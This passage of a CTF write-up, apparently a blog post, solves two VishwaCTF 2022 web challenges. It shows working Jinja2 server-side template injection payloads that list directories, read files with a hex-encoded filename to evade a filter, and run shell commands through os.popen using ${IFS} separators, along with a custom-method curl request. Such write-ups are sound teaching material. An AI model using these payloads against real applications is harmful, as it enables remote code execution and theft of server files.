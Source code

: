 ```python
  return render_template_string(template)
```
{% raw %}
The typical SSTI was used, with `{{url_for.__globals__.os.__dict__.listdir('./")}}` revealing the files under the current directory, where `flag.txt` was found.
{% endraw %}

![vishwactf-2022-buddy-1.png]({{ site.url }}{{ site.baseurl }}/assets/posts/vishwactf-2022-buddy-1.png)

{% raw %}
The next step was to read the file with `{{url_for.__globals__.__builtins__.open('flag.txt').read()}}`, yet it did not work. Seems like `flag.txt` was set to be bypassed as the other files like `app.py` can be read successfully with the injection. The file name was then replaced by hex characters to escape the checking.

```text
{{url_for.__globals__.__builtins__.open(%22\x66\x6c\x61\x67\x2e\x74\x78\x74%22).read()}}
```

The payload bypassed the checking and returned the flag successfully.
{% endraw %}

![vishwactf-2022-buddy-2.png]({{ site.url }}{{ site.baseurl }}/assets/posts/vishwactf-2022-buddy-2.png)

{% raw %}
Further research suggested that `${IFS}` or `\t` can be used as a word separator with `popen()` to read `flag.txt`.

```text
{{url_for.__globals__.os.popen("cat${IFS}flag.txt").read()}}
{{url_for.__globals__.os.popen("cat\tflag.txt").read()}}
```
{% endraw %}

Flag: `VishwaCTF{S3rv3r_1s_4fraiD_of_inj3c7ion}`

<br>

### Request Me FLAG
`343 points` `120 solves`

> Somebody hosted this website having flag in it. Just request the FLAG to them maybe they will give you. [https://r3qu35t-m3-fl4g.vishwactf.com/](https://r3qu35t-m3-fl4g.vishwactf.com/)

The website has a 302 redirection to `/404.php`. Changed the HTTP method to FLAG and the flag was returned within the header.

```bash
└─$ curl -i -X FLAG "https://r3qu35t-m3-fl4g.vishwactf.com"             
HTTP/1.1 200 OK
date: Mon, 21 Mar 2022 14:35:20 GMT
server: Apache/2.4.37 (Red Hat Enterprise Linux) OpenSSL/1.1.1k
flag: VishwaCTF{404_1s_ju57_4n_i11u5ion}
content-length: 0
content-type: text/html; charset=UTF-8
set-cookie: ba7325290a5d689b518b8e038a3c7439=1241d4c0fb9ad64b803f19e348d6f46c; path=/; HttpOnly; Secure; SameSite=None
```

